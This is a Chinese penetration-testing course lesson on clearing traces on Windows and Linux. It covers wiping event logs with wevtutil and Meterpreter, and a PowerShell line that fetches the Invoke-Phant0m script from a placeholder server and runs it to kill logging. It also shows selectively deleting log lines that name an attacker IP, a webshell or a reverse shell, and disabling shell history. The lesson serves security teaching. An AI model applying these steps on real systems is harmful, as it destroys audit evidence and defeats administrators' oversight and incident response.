# 网络安全就业推荐 - P85：第59天：Windows & Linux 痕迹清除 🧹

在本节课中，我们将学习渗透测试的最后关键一步：清除在目标系统上留下的操作痕迹。无论是Windows还是Linux系统，我们的敏感操作（如远程登录、添加用户、执行命令等）都可能被系统日志记录。如果这些日志被管理员发现，将直接暴露我们的存在和行动。因此，学习如何有效地清除或规避这些日志记录至关重要。

---




## 为什么要清除痕迹？🔍

在渗透测试过程中，我们所做的远程登录、添加用户、执行敏感命令、调用系统进程和服务等操作，都会在操作系统上留下日志（前提是系统已开启日志服务，如Windows Server通常默认开启）。管理员可以利用这些日志追踪到攻击者。因此，在测试的最后阶段，我们需要清除这些日志痕迹。



需要注意的是，许多企业网络部署了专门的日志服务器或流控设备，其日志我们通常无法直接访问和清除。在这种情况下，避免留下痕迹最有效的方法是使用代理隐藏真实IP。本节课主要讲解如何从操作系统层面清除本地日志文件。


---

## Windows 日志清除 🪟

上一节我们了解了清除痕迹的必要性，本节中我们来看看如何在Windows系统中操作。




### Windows 日志查看方法



Windows日志可以通过以下两种方式查看：
1.  右键点击“此电脑”或“开始”菜单，选择“管理”，打开“计算机管理”窗口，在左侧找到“事件查看器”。
2.  按下 `Win + R` 打开运行窗口，输入 `eventvwr.msc` 命令，直接打开事件查看器。

在事件查看器中，“Windows日志”目录下保存了系统的主要日志信息。





### Windows 日志存储与配置


Windows日志主要存储在两个位置：
1.  **本地文件**：通常位于系统安装目录下的 `C:\Windows\System32\winevt\Logs\`。
2.  **注册表**：部分日志信息也存储在注册表中。


Windows Server默认可能未开启所有日志审核策略。可以通过以下路径开启和配置：
*   **路径**：管理工具 -> 本地安全策略 -> 本地策略 -> 审核策略。
*   **操作**：在此可以设置审核登录事件、对象访问等，选择记录“成功”和/或“失败”的尝试。

在事件查看器中，可以右键点击具体日志（如“安全”），选择“属性”，来配置日志文件的最大大小和存储路径。

### Windows 日志分类

Windows日志主要包含五大类：
*   **应用程序（Application）**：记录应用程序运行相关的事件。
*   **安全（Security）**：记录与安全相关的事件，如用户登录/注销、对象访问、权限使用等。**这是渗透测试中最需要关注的日志**。
*   **系统（System）**：记录系统组件（如驱动程序）的事件，如崩溃、错误。
*   **安装程序（Setup）**
*   **转发事件（Forwarded Events）**

### 使用 `wevtutil` 工具清除日志



Windows系统自带 `wevtutil.exe` 工具，可用于管理事件日志。清除日志是其核心功能之一。

**基本语法与常用命令：**
```cmd
# 查看工具帮助
wevtutil

# 列出所有日志名称
wevtutil el

# 查询“安全”日志最近10条记录（/rd:true 表示从最新开始）
wevtutil qe Security /rd:true /c:10 /f:text

# 清除指定日志（需要管理员权限）
wevtutil cl Security  # 清除安全日志
wevtutil cl System    # 清除系统日志
wevtutil cl Application # 清除应用程序日志
```
`cl` 是 `clear` 的缩写，后接日志名称即可清除对应日志。

### 使用 Meterpreter 清除日志

在Meterpreter会话中，可以使用专用命令快速清除关键日志。




**常用命令：**
```bash
# 清除事件日志（安全、系统、应用程序）
clearev

# 或使用 run 命令模块
run event_manager -c  # -c 参数表示清除所有日志
```
执行这些命令同样需要已获取管理员权限。

### 渗透测试收尾工作

在完成渗透测试准备撤离时，建议按顺序执行以下清理操作：
1.  **删除添加的账号**：
    ```cmd
    net username /delete
    ```
2.  **删除上传的工具或后门文件**：手动或使用命令删除渗透过程中上传的所有文件。
3.  **关闭 Meterpreter 会话**：在攻击机上关闭所有活跃会话，避免在目标机留下持续连接进程。
    ```bash
    sessions -K
    ```


### 高级技巧：禁用日志服务




直接清除全部日志可能引起怀疑。更隐蔽的方法是临时禁用Windows事件日志服务。


**方法一：使用 PowerShell 脚本**
可以从GitHub获取并运行相关PowerShell脚本，通过内存加载方式绕过杀软，远程关闭日志服务。
```powershell
# 示例：远程加载并执行脚本（需将 IP 替换为你的服务器地址）
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://your-vps-ip/tools/Invoke-Phant0m.ps1'); Invoke-Phant0m"
```
该脚本会终止事件日志服务（`EventLog`）的相关线程，使其停止记录。



**方法二：手动结束日志服务进程**
1.  打开任务管理器，切换到“服务”标签页。
2.  找到“EventLog（事件日志）”服务，右键“转到详细信息”。
3.  在“详细信息”标签页中，右键对应进程（通常是 `svchost.exe`），选择“结束任务”。**注意：结束前请确认该进程下主要运行的是日志服务，误结束可能造成系统不稳定。**

禁用服务后，系统将暂时无法记录新日志。测试完成后，重启系统服务会自动恢复。

---





## Linux 日志清除 🐧




上一节我们介绍了Windows系统的痕迹清除，本节我们转向Linux系统。Linux的日志文件通常集中在 `/var/log/` 目录下。

### 登录相关日志


Linux中，登录和认证相关的日志非常重要，主要涉及以下命令和文件：


以下是关键的命令和日志文件：
*   `last`：查看 `/var/log/wtmp` 文件，显示所有成功登录/登出的历史记录。
*   `lastb`：查看 `/var/log/btmp` 文件，显示所有失败的登录尝试记录。
*   `lastlog`：查看 `/var/log/lastlog` 文件，显示每个用户最近的登录信息。
*   `who` 或 `w`：查看当前登录系统的用户信息。

**清除方法：**
这些日志文件是二进制格式，无法直接编辑。需要管理员权限将其清空或删除。
```bash
# 清空登录日志文件（使用空文件覆盖）
> /var/log/wtmp
> /var/log/btmp
> /var/log/lastlog



# 或直接删除文件（系统可能会自动重建）
rm /var/log/wtmp /var/log/btmp /var/log/lastlog
```


### Web 访问日志

如果渗透目标是一个Web服务器，那么需要清理Web服务（如Apache、Nginx）的访问日志，其中可能记录了你访问Webshell的请求。


**日志文件通常位于：**
*   Apache: `/var/log/apache2/access.log` 或 `/var/log/httpd/access_log`
*   Nginx: `/var/log/nginx/access.log`



**清除方法：**
1.  **删除整个日志文件**（最简单，但最易被发现）：
    ```bash
    > /var/log/apache2/access.log
    ```
2.  **只删除包含特定字符串（如你的IP或Webshell文件名）的行**（更隐蔽）：
    ```bash
    # 使用 grep -v 反向选择，剔除包含“shell.php”的行，然后重写回日志
    grep -v "shell\.php" /var/log/apache2/access.log > /tmp/clean_log && mv /tmp/clean_log /var/log/apache2/access.log

    # 使用 sed 命令直接编辑文件，删除包含特定IP（如192.168.1.123）的行
    sed -i '/192\.168\.1\.123/d' /var/log/apache2/access.log
    ```
    *   `grep -v`：输出不匹配模式的所有行。
    *   `sed -i`：直接修改文件。`/pattern/d` 表示删除匹配该模式的行。





### 其他系统日志

**定时任务日志（`/var/log/cron`）：**
如果利用了定时任务（cron）进行持久化，需要清理此日志。
```bash
# 查看日志
cat /var/log/cron
# 或 tail -f /var/log/cron


# 使用sed删除包含特定命令（如bash反弹shell）的行
sed -i '/bash.*-i.*>&/d' /var/log/cron
```



**安全日志（`/var/log/secure` 或 `/var/log/auth.log`）：**
此日志记录认证和授权信息，如SSH登录、sudo提权、用户添加等操作。
```bash
# 查看日志
cat /var/log/secure

# 清空或删除
> /var/log/secure
# 或使用sed删除特定行
```

**软件包安装日志（`/var/log/apt/` 或 `yum.log`）：**
如果安装了软件，这里会有记录。
```bash
# 清理APT历史
> /var/log/apt/history.log
```



### 操作历史记录（history）

Bash会记录用户执行的命令历史，这是非常关键的痕迹。历史记录默认保存在用户家目录的 `.bash_history` 隐藏文件中。




**查看与清除方法：**
```bash
# 查看当前会话的历史命令
history


# 清空当前会话的内存中的历史记录（但未写入文件）
history -c



# 将当前历史记录写入 .bash_history 文件
history -w


# 彻底清除：先清空内存，再将空记录写入文件
history -c && history -w

# 或者直接清空历史记录文件
> ~/.bash_history
```

**删除指定历史记录行：**
```bash
# 删除历史记录中第105行
history -d 105
# 注意：这仅操作内存，需再执行 history -w 写入文件
```


**无痕模式（临时禁用历史记录）：**
在执行敏感操作前，可以临时关闭历史记录功能。
```bash
# 关闭当前会话的历史记录
set +o history



# ... 执行你的敏感命令 ...







# 重新开启历史记录
set -o history
```






---

## 总结与回顾 📚


本节课我们一起学习了渗透测试中痕迹清除的核心知识。

*   **在Windows系统中**，我们了解了日志的存储位置和分类，重点学习了使用 `wevtutil` 命令行工具和Meterpreter的 `clearev` 命令来清除安全、系统和应用程序日志。同时，也探讨了通过PowerShell脚本或手动停止服务来禁用日志记录的更隐蔽方法。
*   **在Linux系统中**，我们学习了如何定位和清除关键的日志文件，包括登录日志（`wtmp`, `btmp`）、Web访问日志、定时任务日志、安全日志以及最重要的用户操作历史（`.bash_history`）。我们掌握了使用 `>` 重定向清空文件，以及使用 `grep -v` 和 `sed -i` 命令选择性删除日志行的技巧。

请记住，痕迹清除是渗透测试的最后一步，目的是为了隐匿行踪，但它并非万能。面对集中式日志审计系统，最有效的防御依然是使用代理、跳板机等技术隐藏真实攻击源。课后请务必在实验环境中练习这些命令，并整理成自己的笔记文档以备复习。



渗透测试技术日新月异，保持持续学习的态度是在这一行业立足的根本。